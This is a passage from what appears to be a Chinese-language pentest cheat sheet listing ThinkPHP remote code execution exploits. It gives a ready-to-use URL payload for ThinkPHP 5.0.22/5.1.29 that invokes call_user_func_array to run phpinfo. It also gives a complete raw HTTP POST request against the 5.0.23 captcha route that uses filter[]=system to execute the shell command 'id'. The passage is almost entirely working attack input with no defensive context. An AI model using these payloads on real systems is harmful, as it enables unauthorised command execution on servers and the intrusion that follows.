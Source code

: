 ![image](img/discuz-1.png)

### thinkphp

#### ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

或者工具一把梭

#### ThinkPHP-5.0.23-Rce

```bash
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```
